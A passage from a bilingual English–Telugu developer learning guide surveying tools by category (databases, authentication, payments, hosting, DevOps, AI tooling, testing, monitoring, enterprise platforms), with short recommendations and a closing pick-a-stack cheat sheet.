| SQLite | A whole DB in one file — mobile apps, small tools, and (surprise) real production via Turso/LiteFS |
| MongoDB | Document (JSON) database — flexible schema, Node-friendly |
| Redis | In-memory key-value — caching, sessions, queues, leaderboards |
| **Supabase** | Hidden-gem-turned-mainstream: hosted Postgres + auth + storage + realtime + APIs, generous free tier — a whole backend in minutes |
| Firebase | Google's original BaaS — realtime DB, auth, hosting; great for mobile |
| Neon / PlanetScale / Turso | Serverless Postgres (branches like Git!) / serverless MySQL / edge SQLite — the new-wave hosted DBs |
| Upstash | Serverless Redis + queues, pay-per-request — pairs with Vercel |
| PocketBase / Appwrite | Hidden gems: open-source Firebase alternatives you self-host (PocketBase = one single file!) |
| **Prisma** / Drizzle | TypeScript ORMs: Prisma = friendliest; Drizzle = lighter, SQL-closer, rising fast |
| Pinecone / Chroma / pgvector | Vector databases for AI/RAG (see Part H) |

<p class="te"><strong>Telugu:</strong> Nerchukovadaniki <strong>MySQL</strong> (Phase 9), kotta projects ki <strong>Postgres</strong>, weekend build ki <strong>Supabase</strong> (DB + auth + storage anni okate chota, free). PocketBase okka file lo full backend — side projects ki adbhutam.</p>

## I6. Authentication

| Tool | One-liner |
| --- | --- |
| **Clerk** | Drop-in signup/login/profiles for React/Next — prettiest DX, free tier; the 2026 startup default |
| Auth0 | The enterprise auth service — every login method, priced accordingly |
| Firebase Auth / **Supabase Auth** | Comes free with the BaaS — easiest if you're already there |
| Auth.js (NextAuth) | Open-source, self-hosted auth for Next.js — free forever, more wiring |
| Better Auth | Hidden gem: the rising open-source TypeScript auth library — owns your data, no vendor |
| Keycloak | Open-source enterprise SSO — what big companies self-host |
| Passport + JWT | The DIY route you'll build in Phase 8 — learn it once so the services above aren't magic |

<p class="te"><strong>Telugu:</strong> Phase 8 lo <strong>JWT tho DIY</strong> auth kattav — adi nerchukunnaka ee services anni 'magic' kaadu ani telustundi. Real projects lo speed kosam: Clerk (React) leda Supabase Auth (already Supabase vaadutunte).</p>

## I7. Payments

| Tool | One-liner |
| --- | --- |
| **Stripe** | The global standard — best docs & API in the industry; every SaaS tutorial uses it |
| **Razorpay** | India's Stripe — UPI, cards, netbanking, subscriptions; what Indian startups actually use |
| Cashfree / PayU | Razorpay's Indian rivals — payouts, escrow, similar coverage |
| PhonePe / UPI intent | Direct UPI integration for India-first apps |
| Paddle / Lemon Squeezy | Merchant-of-record: they handle global taxes/GST for you — hidden gems for selling software worldwide solo |
| PayPal | Legacy but still expected for global checkout |

<p class="te"><strong>Telugu:</strong> India app ki <strong>Razorpay</strong> (UPI sahitham), global SaaS ki <strong>Stripe</strong>. Solo ga software ammali ante Paddle/Lemon Squeezy hidden gems — prapancham antha tax/GST vaalle chusukuntaru.</p>

## I8. Deployment & Hosting

| Tool | One-liner |
| --- | --- |
| **Vercel** | Push to GitHub → live URL in 30 seconds — made for Next.js/React; generous free tier |
| Netlify | Vercel's twin for static sites & functions |
| **Railway** / Render | Full-stack hosting (backend + DB + cron) with almost no config — where your Node API + MySQL goes free/cheap |
| Fly.io | Run Docker containers close to users worldwide — hidden gem for global apps |
| Cloudflare Pages/Workers | Static hosting + code at the edge in 300 cities — absurdly generous free tier |
| AWS / GCP / Azure | The real clouds — more power, more setup; AWS EC2/S3 is your Phase 10 |
| DigitalOcean / Hetzner | Simple/cheap VPS providers — Hetzner is the hidden gem (EU/US servers at half price) |
| Coolify / Dokploy | Hidden gems: self-hosted "your own Vercel" on any ₹400/mo VPS — one dashboard, deploy anything |
| GitHub Pages | Free static hosting for your portfolio — zero excuse not to have one |

<p class="te"><strong>Telugu:</strong> Frontend ki <strong>Vercel</strong> (30 seconds lo live), backend + DB ki <strong>Railway/Render</strong>, nerchukovadaniki <strong>AWS</strong> (Phase 10). Hetzner + Coolify combo hidden gem — nela ki ₹400 VPS meeda sonta Vercel laantidi nadipochu.</p>

## I9. DevOps & Infrastructure

| Tool | One-liner |
| --- | --- |
| **Docker** | Package any app into a run-anywhere container — your Phase 10; the baseline skill |
| Kubernetes (K8s) | Orchestrates thousands of containers — enterprise scale; learn *about* it, not *it*, at first |
| **GitHub Actions** | CI/CD inside GitHub — test + deploy on every push; the default pipeline |
| GitLab CI / Jenkins | The GitLab-native / legacy-enterprise pipeline tools |
| Terraform / OpenTofu | Infrastructure-as-code — your servers described in files, applied like Git |
| Nginx / **Caddy** | Reverse proxies — Caddy is the hidden gem: automatic HTTPS in 2 lines of config |
| Ansible | Configure many servers from one playbook |
| Portainer / Dozzle | Hidden gems: web UI for your Docker / live container logs in the browser |

<p class="te"><strong>Telugu:</strong> Phase 10 lo <strong>Docker + GitHub Actions + AWS</strong> — ide job-ready DevOps core. Caddy hidden gem: Nginx config 50 lines ayyedi Caddy lo 2 lines, HTTPS automatic.</p>

## I10. AI & LLM Development

| Tool | One-liner |
| --- | --- |
| **OpenAI / Anthropic / Google APIs** | The frontier models as a service — GPT, Claude, Gemini; most AI apps are these + your code |
| Hugging Face | GitHub of models — 1M+ open models, datasets, spaces |
| **Ollama** | Run open models (Llama, Qwen, Mistral) locally with one command — the local-AI gateway drug |
| PyTorch | The deep-learning framework (see AMD doc) — for when you go under the hood |
| LangChain / LlamaIndex | LLM app frameworks — chains, RAG pipelines; powerful, sometimes overkill |
| LangGraph / CrewAI | Agent frameworks — multi-step, multi-agent workflows |
| vLLM / SGLang | Serve open models fast at scale (see AMD doc Part F) |
| **n8n** | Visual automation + AI workflows — your Phase 12 tool; Zapier you can self-host |
| Claude Code / Cursor / Copilot | AI coding: agentic CLI (you're using it) / AI-first editor / autocomplete standard |
| v0 / Lovable / Bolt | Prompt-to-app builders — generate working UIs/apps from a description; prototype in minutes |
| Whisper / ElevenLabs | Speech-to-text / text-to-speech APIs — voice features in an afternoon |

<p class="te"><strong>Telugu:</strong> AI apps ante ekkuvaga <strong>frontier API (Claude/GPT) + nee code</strong>. Local ga free ga try cheyyali ante <strong>Ollama</strong> okka command. Phase 12 ki <strong>n8n</strong>. v0/Lovable tho prompt istene UI vachestundi — prototype speed ki hidden gems.</p>

## I11. Data Engineering & Analytics

| Tool | One-liner |
| --- | --- |
| Pandas / Polars | Python data wrangling — Polars is the fast new hidden gem |
| Apache Spark | Big-data processing across clusters — the enterprise heavyweight |
| Apache Kafka | The event-stream backbone — every large company's data pipeline |
| Airflow / Dagster | Schedule and orchestrate data pipelines |
| dbt | Transform data inside the warehouse with SQL — the analytics-engineer standard |
| Snowflake / BigQuery / Databricks | The cloud data warehouses/platforms |
| **Metabase** / Superset | Hidden gems: open-source BI dashboards — ask questions of your DB without SQL |
| Power BI / Tableau | The corporate dashboard duo — huge in Indian enterprise jobs |

<p class="te"><strong>Telugu:</strong> Ee domain lo full-time vellakapoyina, <strong>Metabase</strong> gurthupettuko — nee MySQL ki free dashboards, SQL raayakunda. Enterprise interviews lo Power BI/Tableau perlu vinipistayi.</p>

## I12. Testing & Code Quality

| Tool | One-liner |
| --- | --- |
| **Vitest** / Jest | Unit testing for JS/TS — Vitest is the modern Vite-native pick |
| **Playwright** | End-to-end browser testing — Microsoft's tool that beat Cypress; also does scraping |
| Cypress | The older E2E favourite — still everywhere in job posts |
| Testing Library | Test React components the way users use them |
| **Postman** / Bruno / Hoppscotch | API testing — Postman is standard; Bruno (offline, Git-friendly) and Hoppscotch (open web) are the hidden gems |
| ESLint + Prettier | Linting + formatting — non-negotiable on any team |
| SonarQube | Enterprise code-quality scanning — big-company CI staple |

<p class="te"><strong>Telugu:</strong> Minimum kit: <strong>Vitest</strong> (unit) + <strong>Playwright</strong> (E2E) + <strong>Postman</strong> (API) + ESLint/Prettier (prathi team lo tappanisari). Bruno try cheyyi — Postman kanna light, files Git lo untayi.</p>

## I13. Collaboration & Product Tools

| Tool | One-liner |
| --- | --- |
| **Git + GitHub** | Version control + the world's code home — your portfolio lives here |
| GitLab / Bitbucket | GitHub's rivals — GitLab big in enterprises that self-host |
| **Jira** | The enterprise ticket/sprint tracker — you *will* meet it |
| Linear | The startup Jira — fast, beautiful; hidden gem for your own projects |
| Notion / Obsidian | Docs & knowledge — team wiki / personal second-brain (markdown, local) |
| Slack / Teams / Discord | Team chat: startups / corporates / dev communities |
| **Figma** | Interface design & prototypes — designers hand you Figma files; learn to read them |
| Excalidraw / Mermaid | Hidden gems: hand-drawn-style diagrams / diagrams-as-code (this doc's diagrams!) |

<p class="te"><strong>Telugu:</strong> Job lo guaranteed ga kanipinchevij: <strong>GitHub, Jira, Slack/Teams, Figma</strong>. Sonta projects ki Linear + Notion. Excalidraw tho system diagrams andam ga veyyachu — interviews lo kuda.</p>

## I14. CMS, E-commerce & Content

| Tool | One-liner |
| --- | --- |
| WordPress | Still ~43% of the web — themes, plugins, client work |
| **Strapi / Sanity / Payload** | Headless CMS trio — admin panel for content, API for your React frontend; Payload is the TS hidden gem |
| Contentful | The enterprise headless CMS |
| **Shopify** | Hosted e-commerce empire — themes + apps are a real freelance market |
| WooCommerce | WordPress e-commerce — half of small-store internet |
| Medusa | Hidden gem: open-source Shopify alternative in Node/TypeScript — your stack exactly |
| Stripe Checkout + DB | The minimal path: sell things with no store platform at all |

<p class="te"><strong>Telugu:</strong> Client websites ki WordPress inka rules chestundi. Nee React skills tho <strong>headless CMS</strong> (Strapi/Sanity) + Next.js combo modern client work. <strong>Medusa</strong> = Node/TS lo open-source Shopify — nee stack tho e-commerce.</p>

## I15. Monitoring, Analytics & Email

| Tool | One-liner |
| --- | --- |
| **Sentry** | Error tracking — know your app crashed before the user tweets it; free tier, add to every project |
| Grafana + Prometheus | The open-source metrics/dashboards standard for infrastructure |
| Datadog / New Relic | The paid enterprise observability suites |
| **PostHog** | Hidden gem: product analytics + session replay + feature flags + A/B — open source, generous free tier |
| Plausible / Umami | Privacy-friendly Google Analytics alternatives — one script tag |
| UptimeRobot / BetterStack | "Is my site down?" pings + status pages — free |
| **Resend** | Hidden gem: the modern email API (by React devs, React email templates) — transactional email in minutes |
| SendGrid / Postmark / Brevo | The established email APIs |
| Twilio / MSG91 | SMS & WhatsApp APIs — global / India-focused |
| Novu / OneSignal | Notification infrastructure: in-app/push/email in one — open-source gem / push standard |

<p class="te"><strong>Telugu:</strong> Prathi project ki free kit: <strong>Sentry</strong> (errors) + <strong>PostHog</strong> (analytics + replay) + <strong>UptimeRobot</strong> (down aithe alert) + <strong>Resend</strong> (emails). Ee naalugu pettadaniki okka sayantram chaalu — app professional aipotundi.</p>

## I16. Enterprise Platforms (your Part II world)

| Tool | One-liner |
| --- | --- |
| **SAP** (ABAP · BTP · CAP · Fiori/UI5 · HANA) | The ERP giant running most large companies' finance/logistics — your career track |
| Salesforce (Apex, LWC) | The CRM giant — its own language, its own economy of admins & devs |
| ServiceNow | IT service management platform — workflows for big-company operations |
| Microsoft Power Platform | Low-code apps/automation inside Office — Power Apps, Power Automate, Power BI |
| Workday / Oracle ERP | The HR / finance enterprise suites — SAP's neighbours |
| MuleSoft / SAP CPI | Enterprise integration layers — connecting all of the above |

<p class="te"><strong>Telugu:</strong> Enterprise prapancham lo languages/frameworks kaadu — <strong>platforms</strong> untayi: SAP (nee track), Salesforce, ServiceNow. Prathi daaniki sonta economy, certifications, jobs. Ivi 'boring' ga kanipistayi kaani salaries boring kaadu.</p>

## I17. Pick-a-Stack Cheat Sheet

Stop collecting tools; combine them. Four proven recipes:

| Goal | The stack |
| --- | --- |
| **Your roadmap stack** (job-ready fundamentals) | React + Tailwind → Node/Express → MySQL → JWT auth → Docker → AWS EC2 · GitHub Actions · Sentry |
| **Ship-this-weekend stack** (side project, ₹0) | Next.js + Tailwind + shadcn/ui → Supabase (DB+auth+storage) → Vercel → Resend + Razorpay → PostHog |
| **AI-app stack** | Next.js frontend → FastAPI or Node backend → Claude/GPT API → pgvector/Chroma (RAG) → Ollama for local → deployed on Railway |
| **Freelance-client stack** | WordPress or Next.js + headless CMS (Sanity/Strapi) → Vercel → Razorpay → Plausible |

> **The honest rule:** tools are 10% of the job; the concepts in Parts A–H are the 90% that transfers. Every table above is just the same ideas — server, database, auth, deploy — wearing different logos. Learn the concept once, and every new logo is a weekend, not a semester.

<p class="te"><strong>Telugu:</strong> Tools collect cheyyadam aapu — <strong>combine</strong> cheyyi. Nee roadmap stack already proven (React → Node → MySQL → AWS). Weekend project ki: Next.js + Supabase + Vercel — ₹0 lo live. Chivari nijam: tools 10% matrame; Parts A–H lo unna concepts 90% — concept okka saari nerchukunte, prathi kotta logo okka weekend pani, semester kaadu.</p>

*That's the vocabulary. None of these words are magic — each one is a plain idea you now recognise. When you meet one in a job post or a meeting, come back, reread its paragraph, and move on unafraid.*
